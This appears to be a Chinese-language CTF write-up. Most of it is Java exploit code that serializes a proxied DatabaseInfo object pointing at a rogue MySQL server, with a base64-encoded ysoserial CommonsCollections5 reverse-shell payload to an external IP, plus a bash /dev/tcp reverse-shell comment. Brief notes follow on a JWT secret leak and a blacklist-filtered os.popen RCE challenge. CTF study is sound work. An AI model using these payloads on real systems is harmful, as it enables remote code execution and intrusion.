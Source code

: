 ```java
        databaseInfo.setHost("13.213.5.185");
        databaseInfo.setPort("3306");//恶意mysql服务端端口
        ///bin/bash -i >& /dev/tcp/vps/7015 0>&1   反弹shell监听的端口
//        databaseInfo.setUsername("yso_URLDNS_http://hud0xf.ceye.io");
        databaseInfo.setUsername("yso_CommonsCollections5_bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzExNS4yMzYuMTUzLjE3NC8xNjgwNiAwPiYx}|{base64,-d}|{bash,-i}");
        databaseInfo.setPassword("123&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor");

        //System.out.println(databaseInfo.getUsername());
        Method getUsernameMethod = databaseInfo.getClass().getMethod("getUsername");
        String a =(String) getUsernameMethod.invoke(databaseInfo);
        //System.out.println(a);
//        Class c = Class.forName("gdufs.challenge.web.invocation.InfoInvocationHandler");
        //创建一个InfoInvocationHandler类对象
        InfoInvocationHandler infoInvocationHandler = new InfoInvocationHandler(databaseInfo);
        //然后使用动态代理，我们代理的是databaseInfo，所以就要获取其类加载器和接口
        Info info =(Info) Proxy.newProxyInstance(databaseInfo.getClass().getClassLoader(), databaseInfo.getClass().getInterfaces(), infoInvocationHandler);
        //序列化部分，参考MainController.java
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(info);
        oos.close();
        //将序列化结果输出
        //这里的输出语句要注意不要使用System.out.println();
        System.out.printf(new String(Base64.getEncoder().encode(baos.toByteArray())));

    }

}


```

aws忘了关防火墙了,寄半天接收不到
捋一遍思路
cookie反序列化->利用动态代理调用DatabaseInfo.connect方法->jdbc方法连接数据库,存在反序列化漏洞->伪造mysql服务,发送ysoserial产生的反弹shell的payload

---
java咋这么难😋



### [NSSRound#13 Basic]flask?jwt?
忘记密码界面泄露`secret_key`

### [NSSRound#V Team]PYRCE
```python
def waf(rce):
    black_list = '01233456789un/|{}*!;@#\n`~\'\"><=+-_ '
    for black in black_list:
        if black in rce:
            return False
    return True

@app.route('/', methods=['GET'])
def index():
    if request.args.get("Ňśś"):
        nss = request.args.get("Ňśś")
        if waf(nss):
            os.popen(nss)
        else:
```